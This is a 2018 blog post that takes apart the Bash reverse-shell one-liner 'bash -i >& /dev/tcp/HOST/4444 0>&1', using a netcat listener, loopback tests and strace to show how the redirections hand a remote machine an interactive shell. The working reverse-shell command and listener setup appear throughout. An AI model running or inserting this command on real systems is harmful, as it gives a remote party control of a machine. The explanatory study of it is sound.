 +++
title = "One Line Reverse Shell in Bash"
slug = "reverse-shell-in-bash"
date = 2018-01-10T06:41:19Z
desc = "Figuring out how a Bash one-liner works as a reverse shell."
tags = ["security", "tools"]
+++

Yesterday I saw a message from [Bryan Brake] on one of the [BrakeSec Slack] channels:

> This is a pretty bit of bash scripting *bash -i >& /dev/tcp/192.168.8.198&#x002f;4444 0>&1*

I knew that it’s a reverse shell&#8239;---&thinsp;a tool that connects the target computer back to you (hence the ‘reverse’) and then allows you to execute commands on that machine (‘shell’). But how does it work?

*Skip to the [Summary] if you just want the answer.*

## Setup

Bryan then mentioned that this command is supposed to be used with a [netcat], which is `nc` or `ncat` depending on your version, listening on port `4444` of the computer with <abbr>IP</abbr> `192.168.8.198`:
```
$ nc -v -n -l -p 4444
# -v — be verbose
# -n — do not try to inverse lookup IPs that connect to us
# -l — listen
# -p 4444 — port to listen on
```

I didn’t want to run my shell over the open Internet, so I replaced `192.168.8.198` with the loopback <abbr>IP</abbr> `127.0.0.1`:
```
# (1) run in the first terminal
$ nc -vnlp 4444

# (2) and then in the second
$ bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

And it works! Now, let’s figure it out one peace at the time, starting from `bash -i`.

## Interactive Bash

According to the [Bash] man page (`man bash`), option `-i` means that we’re starting an _“interactive shell.”_ The _Invocation_ section then explains that non-interactive shell will not execute its startup files: all those `/etc/profile`, `~/.profile`, `~/.bashrc`, etc. It also says that Bash automatically starts in this interactive mode when there are no non-option arguments (unless you pass a command to execute with a `-c`) and when its standard input and error streams are both connected to terminals.

{{<lead>}}So why would we want an interactive shell?{{</lead>}} I think, just because it will be more like shells that we’re used to&#8239;---&thinsp;with default aliases, correctly set `PATH`, and a [prompt].

{{<lead>}}Ok, and why isn’t it interactive in our case?{{</lead>}} Those angle brackets in our command redirect standard streams; this probably make Bash think that it isn’t running in the terminal. Let’s look into it.

## Network Redirection

Redirection is a feature available in most of the shells that allow you to change where command’s output goes, and input comes from. For example, this will write the directory listing to the `dir.list` file:
```
$ ls -l > dir.list
```

A quick search through the good old man page reveals that `>& target` is just an alternative form of `&> target`, which in turn means `1> target 2>&1`&#8239;---&thinsp;redirect both standard output and standard error streams to the `target`.

At this point, I made a mistake thinking that `>& /dev/tcp/127.0.0.1/4444` is merely a redirect of stdout and stderr to some special file `/dev/tcp/127.0.0.1/4444` that automatically opens a <abbr>TCP</abbr> connection. Everything is a file on Linux after all, right? This can even be “confirmed” by redirecting the output of a simple `echo`:
```
# (1) don’t forget to start listening,
# since nc will quit every time you disconnect;
# I’ll omit it in the following listings
$ nc -nvlp 4444

# (2) it works!
$ echo hello, world > /dev/tcp/127.0.0.1/4444
```

But then I’ve tried to do the same thing from [<abbr>ZSH</abbr>][ZSH]:
```
$ echo hello, world > /dev/tcp/127.0.0.1/4444
zsh: no such file or directory: /dev/tcp/127.0.0.1/4444
```
{{<lead>}}Why doesn't it work in <abbr>ZSH</abbr>?{{</lead>}} It turns out, it could be a special file, but I think this isn’t supported on my Debian, so Bash just emulates them, while <abbr>ZSH</abbr> does not. What’s interesting to note, it works without any special rights!

Now for the most confusing part.

## Sending your stdin to stdout

That’s exactly how `0>&1` reads to me. What does it even mean?!

At first, I thought this is needed so that the server, i.e. netcat side, would see its input back. I’ve tested my idea by removing it from the command. That broke the ‘shell’ part: now I could still see commands and their output on the server side, but couldn’t execute anything! You should play with it; it’s kind of a weird setup:
```
$ bash -i >& /dev/tcp/127.0.0.1/4444
```

At this point, I remembered about this tool `strace`, which allows you to see the kernel functions called by the program. Inspired by the example of [Julia Evans], I wasn’t afraid to try it. 😄

### Investigating with strace

I didn’t know what system call I wanted to find, so I just ran it without any filters and saved the full output to `strace.out` file:
```
$ strace -f bash -c 'bash -i /dev/tcp/127.0.0.1/4444 0>&1' > strace.out
# -f — makes strace follow the child processes created
# I wrapped my command in 'bash -c' so that redirections
# do not affect strace itself
```

Then I used `grep` to find the line with a string ‘127.0.0.1’ in it:
```
$ grep --line-number '127.0.0.1' strace.out
1:execve("/bin/bash", ["bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/44"...], 0x7fff7df714d8 /* 57 vars */) = 0
200:[pid  5106] connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
```

First hit isn’t interesting, it’s just `strace` executing our command. But the second one looks promising. Here it is with a couple more lines around:
```
199: [pid  5106] socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
200: [pid  5106] connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
201: [pid  5106] dup2(3, 1)                  = 1
202: [pid  5106] close(3)                    = 0
203: [pid  5106] dup2(1, 2)                  = 2
204: [pid  5106] dup2(1, 0)                  = 0
205: [pid  5106] fcntl(1, F_GETFD)           = 0
206: [pid  5106] execve("/bin/bash", ["bash", "-i"], 0x2485008 /* 57 vars */) = 0
```

* According to `man socket`, call to `socket()` returns a file descriptor (_fd_), in our case, it’s `3`. Then `connect()`, unsurprisingly, connects a socket identified by the fd to the given address. Ok, so after the first two lines we have an open socket to our server.
* Again, consulting with `man` reveals that `dup2(3, 1)` on line 3 will close fd `1`, which is our stdout, and create a copy of the socket (fd `3`) on it. _“After  a  successful return, the old and new file descriptors may be used interchangeably.”_ Now we close `3` since we don’t need the original anymore. Great! The `1> /dev/tcp/...` part is done in four syscalls.
* On line 203 `dup(1, 2)` does the same thing to our stderr: closes original and makes a copy of a socket to fd `2`. We’re now done with the `>& /dev/tcp/…`.

Only after meditating on line 204 for a while, it clicked for me: I was completely wrong about redirections! Using them is *not* like connecting tubes, even if it typically looks that way. Both `>` and `<` are *value assignments!*

When you do `ls -l > dir.list` you are not somehow “sending” the output from `ls` to the file. You’re _assigning_ the file `dir.list` to the standard output of `ls`.

This also explains why you can put redirections wherever you like around the command:
```
# these are the same
$ some_cmd -v > file
$ > file some_cmd -v
$ some_cmd > file -v
```
But the order of redirections relative to each other matters:
```
# stderr := stdout
# stdout := file
$ some_cmd 2>&1 1>file

# stdout := file
# stderr := stdout (== file)
$ some_cmd 1>file 2>&1
```

When we execute `0>&1`, we’re assigning to stdin the stdout’s fd, which is at that point is a socket. It doesn’t change almost anything if we do it the other way around: `0<&1`&#8239;---&thinsp;it’s still `stdin := stdout`. The only difference is that `>` checks if a target is available for writing and `<` tests for reading. Our socket is bidirectional, so it passes both.

## Summary

When you execute `$ bash -i >& /dev/tcp/192.168.8.198/4444 0>&1`

* first, Bash will (somehow?) check if special files `/dev/tcp/<host>/<port>` are supported by your <abbr>OS</abbr> and if they aren’t, it will emulate them by opening a <abbr>TCP</abbr> connection to `192.168.8.198:4444` for you
* it will also _reassign_ all three standard streams&#8239;---&thinsp;stdin, stdout, and stderr&#8239;---&thinsp;to the socket with this new connection, so all the output will go into, and input will be read from this socket
* then it will start a new interactive Bash session

## Links/Resources

* man page for Bash; thanks, Brian Fox and Chet Ramey!
* [“Redirection” page][redirection] on [Bash Hackers Wiki][bash-hackers]
* man pages for the syscalls, written as part of the [Linux man-pages project][man-pages]
* Julia’s excellent [talk][julia-talk], [blog posts][julia-blog] and [zines][julia-zine] on `strace`
* to join [BrakeSec Slack], as one should, send a quick DM to [@BrakeSec]

[Bryan Brake]: https://twitter.com/bryanbrake
[Julia Evans]: https://jvns.ca/
[BrakeSec slack]: https://brakesec.slack.com
[summary]: {{< ref "#summary" >}}
[netcat]: http://nc110.sourceforge.net/
[Bash]: https://en.wikipedia.org/wiki/Bash_(Unix_shell)
[ZSH]: https://en.wikipedia.org/wiki/Z_shell
[prompt]: https://en.wikipedia.org/wiki/Command-line_interface#Command_prompt
[man-pages]: https://www.kernel.org/doc/man-pages/
[redirection]: http://wiki.bash-hackers.org/syntax/redirection
[bash-hackers]: http://wiki.bash-hackers.org/start
[julia-talk]: https://www.youtube.com/watch?v=HfD9IMZ9rKY
[julia-blog]: https://jvns.ca/categories/strace/
[julia-zine]: https://jvns.ca/zines/#strace-zine
[@BrakeSec]: https://twitter.com/BrakeSec
